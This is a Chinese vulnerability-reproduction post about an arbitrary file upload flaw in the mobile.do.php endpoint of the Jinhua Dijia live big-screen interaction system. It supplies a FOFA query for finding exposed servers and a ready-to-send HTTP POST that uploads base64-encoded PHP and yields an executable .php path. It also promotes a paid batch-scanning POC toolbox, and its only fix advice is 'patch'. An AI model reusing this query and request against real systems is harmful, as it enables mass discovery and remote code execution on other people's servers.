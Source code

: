 #  金华迪加现场大屏互动系统mobile.do.php接口存在任意文件上传漏洞 附POC   
2024-11-4更新  南风漏洞复现文库   2024-11-04 21:40  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 金华迪加现场大屏互动系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
金华迪加现场大屏互动系统  
## 2.漏洞描述  
  
金华迪加现场大屏互动系统mobile.do.php接口存在任意文件上传漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
金华迪加现场大屏互动系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1kYSicM3VcAmdJstB4jw1IZ4Lr7NjiazSrtHueWd2wnh7plBGuSp7d5EQ/640?wx_fmt=png&from=appmsg "null")  
  
金华迪加现场大屏互动系统mobile.do.php接口存在任意文件上传漏洞  
## 4.fofa查询语句  
  
body="/wall/themes/meepo/assets/images/defaultbg.jpg" || title="现场活动大屏幕系统"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/mobile/mobile.do.php?action=msg_uploadimg  
  
漏洞数据包：  
```
POST /mobile/mobile.do.php?action=msg_uploadimg HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.x.xx.xxx
Content-Length: 71
Content-Type: application/x-www-form-urlencoded

filetype=php&imgbase64=PD9waHAgcGhwaW5mbygpO3VubGluayhfX0ZJTEVfXyk7Pz4=
```  
  
会返回上传文件地址，其中PD9waHAgcGhwaW5mbygpO3VubGluayhfX0ZJTEVfXyk7Pz4= 是 的base64编码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1gMflWxkkV0Xs90q64OPibkiagSvETrP1zicXZ0vD5zicd2PsHToYkMOMPQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
https://xxx.x.xx.xx/data/pic/pic_173072510494711.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq177Jtglov0GPI0ibibsLV0aib4JC2pJmO4OMJBKvhiaOnmJX0rNiaw7l901g/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1q15BcrmmoDBrDQpsrgMX0Fjs6icqiaxISmfvsYI3xrbnxxUuyo4uTyvQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1XZGOYdyordbHaWAnMKoU6Gxg2lpJRMWcJTyx85L7mrSE4VEqk9dBVw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1wctfJsy8swpIzlPbPkkTv213ZzGRVvQScJgDyhpZoOe1FgtefjpJcA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq1Q2Szj2Ip4ib6LtD0yIOyoPcND2NxvXFbboLrqkDTz6Wxy6bNhFiaH9Kw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YvePKKDVaIyMXTmy6Adyq17M4GRDmdL8qFPmJbKG8dHd6JLvUhjUic2khibrylu3C6IbH5Wfrf0aVQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
[明源云ERP报表服务GetErpConfig.aspx接口存在敏感信息泄露漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487624&idx=1&sn=33135f963826604ee69c3fa856c5c052&chksm=974b9d8fa03c14999e4ffe2b8ebb480471d29c278166864c0d58b06595586ef862c67c8d3182&scene=21#wechat_redirect)  
  
  
[officeWeb365 PW/SaveDraw接口存在任意文件上传漏洞 -老漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487612&idx=1&sn=7eab6f76a8eefdfae301fbce1d4b8484&chksm=974b9d7ba03c146da28d4bad3e7de866b717612911e05fa549cef911510b6dba50d9f157f0ad&scene=21#wechat_redirect)  
  
  
